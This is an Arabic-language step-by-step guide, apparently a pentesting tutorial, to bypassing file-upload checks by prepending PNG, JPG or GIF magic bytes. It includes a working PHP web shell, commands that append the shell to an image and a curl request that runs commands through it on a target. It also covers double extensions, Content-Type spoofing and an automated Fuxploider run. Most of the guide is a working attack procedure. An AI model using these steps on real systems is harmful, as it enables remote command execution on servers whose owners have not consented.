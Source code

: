 
## الخطوات العملية لتغيير السيجنتشر للملف

1. **إعداد البيئة**:
   - استخدم أداة وكيل مثل Burp Suite أو OWASP ZAP لاعتراض وتعديل طلبات تحميل الملفات.
   - قم بإنشاء ملف ويب شيل بسيط (مثل PHP) لاختبار التنفيذ:
     ```php
     <?php system($_GET['cmd']); ?>
     ```
     احفظه باسم shell.php.
   - استخدم أدوات مثل `xxd` أو `echo -ne` لإضافة البايتات السحرية إلى الملف.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة استجابات الخادم.
   - حدد نقطة تحميل الملفات في الموقع (مثل نموذج تحميل صور).

2. **اختبار التحميل المباشر**:
   - حاول تحميل shell.php مباشرة عبر واجهة الموقع.
   - استخدم Burp Suite لاعتراض طلب POST وفحص استجابة الخادم (مثل "نوع الملف غير صالح" أو رمز حالة HTTP 403).
   - إذا فشل التحميل، انتقل إلى تعديل البايتات السحرية.

3. **إضافة البايتات السحرية**:
   - حدد نوع الملف المسموح (مثل JPG، PNG، GIF) وأضف البايتات الس سحرية المقابلة في بداية الملف.
   - أمثلة على البايتات السحرية:
     - **PNG**: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR`
     - **JPG**: `\xff\xd8\xff`
     - **GIF**: `GIF87a` أو `GIF89a`
   - استخدم أدوات مثل `echo -ne` لإنشاء ملف جديد يبدأ بالبايتات السحرية، متبوعًا بالشيفرة الخبيثة.
   - أرسل الطلب مع تعديل Content-Type إلى نوع مناسب (مثل image/png).

4. **مراقبة الاستجابات**:
   - تحقق مما إذا تم تحميل الملف بنجاح (مثل رسالة "تم التحميل" أو ظهور اسم الملف).
   - حاول الوصول إلى الملف عبر المتصفح أو curl:
     ```bash
     curl 'http://<target>/Uploads/shell.png?cmd=whoami'
     ```
   - **نجاح (True)**: إذا تم تنفيذ الأمر (مثل إرجاع مخرجات whoami)، فهذا يؤكد وجود ثغرة.
   - **فشل (False)**: إذا رفض الخادم الملف أو لم يتم تنفيذه، جرب بايتات سحرية أخرى أو امتداد مختلف.

5. **تجربة تقنيات إضافية**:
   - إذا فشل نوع بايتات سحرية واحد، جرب أنواعًا أخرى (مثل GIF أو JPEG).
   - ادمج البايتات السحرية مع تقنيات أخرى (مثل الامتدادات المزدوجة مثل shell.php.png أو تغيير Content-Type).
   - استخدم أدوات مثل ImageMagick لإنشاء ملفات صور تحتوي على شيفرة خبيثة:
     ```bash
     convert -size 110x110 xc:white shell.jpg
     echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
     ```
   - استخدم أدوات أتمتة مثل Fuxploider:
     ```bash
     python3 fuxploider.py --url http://<target>/upload --extensions php,png --content-type image/png
     ```

6. **تأكيد التنفيذ**:
   - تحقق من تنفيذ الملف عبر إرسال أوامر بسيطة (مثل whoami أو ls).
   - إذا نجحت، سجل البايتات السحرية والامتداد المستخدم للتوثيق.
   - انتقل إلى اختبار هجمات أخرى (مثل استغلال ملفات الإعدادات أو ImageMagick).

---